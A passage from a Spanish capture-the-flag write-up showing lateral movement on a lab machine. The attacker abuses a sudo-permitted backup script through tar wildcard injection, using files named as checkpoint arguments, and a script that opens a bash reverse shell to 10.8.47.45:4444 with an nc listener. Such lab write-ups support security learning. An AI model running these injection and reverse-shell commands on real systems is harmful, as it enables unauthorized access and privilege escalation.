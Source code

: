 ```bash

  => / is using 87.1% of 14.70GB


20 packages can be updated.
0 updates are security updates.


jake@the-marketplace:~$ whoami
jake
jake@the-marketplace:~$ 
```

## Movimiento lateral
Si miramos los privelegios que tenemos a nivel de sudoers podemos ejecutar un script de bash como el usuario michael
```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
Este es el script
```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
Este script tiene dos problemas primero el comando tar se esta llamando de forma relativa no absoluta, si el script fuera suid se podria hacer un path hacking para secuestrar el binario pero como no es el caso, tenemos que al final del comando esta incluyendo todo lo que hay en el directorio actual desde el cual ejecutemos el este script, podemos aprovecharnos de esto para conseguir una revershell.

Si nos vamos a [Gtfobins](https://gtfobins.github.io/gtfobins/tar/#shell) solamente tenemos que crear dos archivos con los argumentos y otro con el script que va a enviarnos la revershell.

```bash
jake@the-marketplace:~$ cd /tmp/
jake@the-marketplace:/tmp$ echo '' > --checkpoint=1
jake@the-marketplace:/tmp$ echo '' > "--checkpoint-action=exec=sh rev"
```
y el archivo rev
```bash
jake@the-marketplace:/tmp$ cat rev 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.8.47.45/4444 0>&1"
```
Al momento de ejecutar el script nos va a dar un problema esto es por los permisos, para solucionar esto solamente tenemos que ejecutar esto.
```bash
jake@the-marketplace:/tmp$ chmod o+w /opt/backups/backup.tar
```
Lo ejecutamos
```bash
jake@the-marketplace:/tmp$ sudo -u michael /opt/backups/backup.sh
```
Y obtenemos la revershell por debajo
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
```